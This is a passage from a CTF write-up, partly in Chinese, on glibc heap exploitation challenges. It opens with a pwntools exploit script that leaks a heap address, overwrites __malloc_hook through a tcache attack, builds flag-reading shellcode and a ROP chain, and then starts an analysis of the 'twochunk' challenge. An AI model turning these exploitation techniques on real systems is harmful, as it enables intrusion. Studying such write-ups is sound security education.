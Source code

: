 ```python
heap=u64(p.read(6)+'\0\0')-0x17b0
add(2,0x217)
free(2)
edit(2,p64(libc.sym['__malloc_hook']))
edit(0,'\0'*0x1f8+p64(0x91)+p64(heap+0x19a0)+p64(heap+0x30-0x10))
log.warning(hex(heap))
log.warning(hex(base))
add(1,0x88)
cmd(0xc388)
sh=shellcraft.open("./flag")
sh+='''
mov rdi,rax
mov rsi,{}
mov rdx,0x30
xor rax,rax
syscall
mov rdi,1
mov rax,1
syscall
'''.format(heap+0x800)
p.send(asm(sh))
cmd(0xc388)
gadget=0x000000000010e994+base#add rsp,0x58;ret;
rdi=0x0000000000026542+base
gdb.attach(p)
p.send(p64(gadget))
ret=0x000000000002535f+base
rdi=0x0000000000026542+base
rsi=0x0000000000026f9e+base
rdx=0x000000000012bda6+base
rax=0x0000000000047cf8+base
sys=0x0000000000026bd4+base
rcx=0x000000000010b31e+base
rop=p64(ret)*3+p64(rdi)+p64(0xa)+p64(rsi)+p64(heap)+p64(rdx)+p64(0x3000)+p64(rcx)+p64(7)+p64(libc.sym['syscall'])+p64(heap+0x1e30)
add(0,0x200,rop)
p.interactive()
```

# twochunk
英文不好写篇文章累个半死...换中文..还是中文亲切.
这题比赛时候我们队用的是另一种方法类似的方法做出来...跑了好几个小时....碰撞地址...其实这题有其特殊性.首先咱来分析一下这题.
## Analysis
这题主要有7个功能大多数功能都是有使用次数限制的(做的时候太难受了!)
全题最多允许存在的index只能为0或者1...
Add function:
可以选择
1. malloc(0xf8)但是size为23333 只有一次机会+`strchr(list[idx].ptr, 0x7F))`结果要为0
2. calloc(size) size>0x80 && size<=0x3ff


[0]: https://github.com/n132/Watermalon/tree/master/Hitcon_2019/one_punch_man
[1]: https://github.com/n132/Watermalon/tree/master/%E9%AB%98%E6%A0%A1%E6%88%98%E7%96%AB_2020/twochunk
[2]: https://xz.aliyun.com/t/7192
[3]: ch4r1l3.github.io